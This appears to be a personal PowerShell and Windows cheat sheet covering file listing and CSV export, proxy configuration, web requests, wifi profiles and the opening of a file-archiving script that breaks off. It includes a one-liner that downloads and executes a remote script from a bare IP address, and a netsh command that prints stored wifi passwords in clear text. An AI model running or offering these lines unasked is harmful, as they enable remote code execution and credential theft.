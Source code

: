 ```
C:\Temp_2\Export.csv                     Archive 503    12/10/2017 11:11:28
C:\Temp_2\Export.log                     Archive 595    12/10/2017 11:01:37
```
## and export into csv
```
PS C:\Temp_2> Get-ChildItem -recurse -force . | Select-Object FullName,Attributes,Length,LastWriteTimeUtc | Sort-Object | Export-Csv -Encoding ascii -NoTypeInformation -Path "Export for NAME $(((get-date).ToUniversalTime()).ToString("yyyy-MM-dd HH-mm-ss")).csv"
```
Recursively list all directories up to depth 2:
```
> Get-ChildItem -recurse -force . -Depth 2 -Directory | Select-Object FullName,Attributes,Length,LastWriteTimeUtc | Sort-Object
```

### Proxy
```
> netsh winhttp show proxy
> netsh winhttp import proxy source=ie
> $webclient=New-Object System.Net.WebClient
> $creds=Get-Credential
> $webclient.Proxy.Credentials=$creds
```
```
> Invoke-WebRequest https://google.com/
> Invoke-WebRequest https://google.com/ | Select-Object -ExpandProperty Content
> Invoke-WebRequest https://google.com/ -Proxy http://someproxy.com:8080 -ProxyUseDefaultCredentials
> Invoke-WebRequest http://google.com -Proxy http://someproxy.com:8080:8080 -ProxyUseDefaultCredentials | Select-Object -ExpandProperty Headers
```

### curl like
```
> Invoke-RestMethod "https://jsonplaceholder.typicode.com/users" -Proxy http://someproxy.com:8080 -ProxyUseDefaultCredentials | ConvertTo-Json -Depth 10
```

### Get file:
```
C:\Windows\system32>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22:80/file.ps1')"
```

## Wifi
```
> netsh wlan show profile
> netsh wlan show profile SOMENETWORKHERE key=clear
```

## Simple PS script to export a list of files into CSV and then archive everything into a ZIP:
```
# Getting user inputs:
[CmdletBinding()]
param (
     [Parameter(Mandatory=$true)]
     [string] $ReceiverName = $null,
     [Parameter(Mandatory=$true)]
     [string] $SourceFolder = $null
)

# Test if provided firectory exists:
```